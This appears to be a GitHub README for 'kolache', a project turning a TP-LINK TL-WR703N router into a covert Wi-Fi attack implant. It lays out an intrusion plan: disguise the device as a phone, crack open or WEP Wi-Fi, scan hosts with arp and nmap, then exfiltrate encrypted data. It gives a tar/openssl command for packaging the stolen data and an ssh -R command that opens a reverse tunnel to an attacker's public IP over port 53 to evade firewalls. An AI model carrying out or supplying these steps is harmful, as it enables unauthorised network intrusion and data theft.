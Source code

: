 kolache
=======

Description
----
Create open source wifi-pineapple with the TP-LINK TL-WR703N

Installation/Build Instructions
----

Additional Info and Links
----
applications needed on router for dns exfil:
dig
xxd


https://hackucf.org/blog/hack-all-the-things-exfiltrating-data-via-dns-requests/


http://jontai.me/blog/2011/11/monitoring-dns-queries-with-tcpdump/


1.) External drive should be encrypted. 

http://oneitguy.com/blog/encrypted-remote-backup-openwrt

https://dev.openwrt.org/ticket/10787

http://gui-at.blogspot.com/2010/02/disk-encryption-in-openwrt.html

http://sjoosten.nl/2013/06/luks-usb-stick.html

2.) Once the SD card is mounted. Run a script that changes the device host name and mac address to something like an apple iphone/ipad or samsung android device. 

3.) Once mounted, ethernet in and set up the device for monitoring in X minutes

4.) Scans. Finds unencrypted wifi or WEP and cracks it.
  
5.) Once on the target network, does an arp scan and then nmap of hosts.

6.) Finds way to internet

7.) Exfil data. All data should be encrypted with openssl before exfiltration.

> tar -P -zcf - $dirname | openssl aes-128-cbc -out $dirname.tar.gz -k 1234

(tar/gzip everything in a given directory. AES-128 encrpt file. set the password to the file as "1234")


8.) Opens reverse ssh into network. 
> ssh -R 53:localhost:22 sourceuser@<public ip>
> tunnel through port 53 (because it it is normally unblocked)

9.) Win...
